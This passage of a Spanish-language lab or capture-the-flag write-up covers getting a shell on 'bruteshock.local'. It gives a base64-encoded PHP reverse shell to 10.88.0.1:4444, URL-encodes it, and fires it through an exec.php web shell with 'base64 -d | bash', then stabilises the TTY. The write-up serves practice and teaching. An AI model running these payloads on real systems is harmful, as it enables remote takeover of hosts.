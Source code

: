 - Nota que en medio de la cadena en `base64` que hay un caracter (`+`) que limita nuestra  ejecución, es por eso que **debemos reemplazarlo** con `%2B`, que es su traducción en `Url Encoding`

**Ejecutaremos el comando sin aplicar `| bash` para ver el contenido de la cadena que se decodifica**

`Antes`

~~~ bash
cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjg4LjAuMSIsNDQ0NCk7ZXhlYygiL2Jpbi9iYXNoIDwmMyA+JjMgMj4mMyIpOyc=
~~~

![[Pasted image 20241105234140.png]]


`Después`

~~~ bash
cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjg4LjAuMSIsNDQ0NCk7ZXhlYygiL2Jpbi9iYXNoIDwmMyA%2BJjMgMj4mMyIpOyc=
~~~

![[Pasted image 20241105234108.png]]

Ahora con este pequeño cambio deberíamos poder establecer una `shell` sin problemas

~~~ bash
http://bruteshock.local/pruebasUltraSecretas/exec.php?cmd=echo%20%22cGhwIC1yICckc29jaz1mc29ja29wZW4oIjEwLjg4LjAuMSIsNDQ0NCk7ZXhlYygiL2Jpbi9iYXNoIDwmMyA%2BJjMgMj4mMyIpOyc=%22%20|%20base64%20-d%20|%20bash
~~~

![[Pasted image 20241105234657.png]]



# Escalada de privilegios
---
## Tratamiento TTY

Haremos el típico tratamiento de la TTY para operar de una forma más cómoda y poder hacer `Ctrl + C` y `Ctrl + L`

~~~ bash
export TERM=xterm
export SHELL=/bin/bash
script /dev/null -c bash
^Z

stty raw -echo;fg
reset xterm
~~~

![[Pasted image 20241105233905.png]]
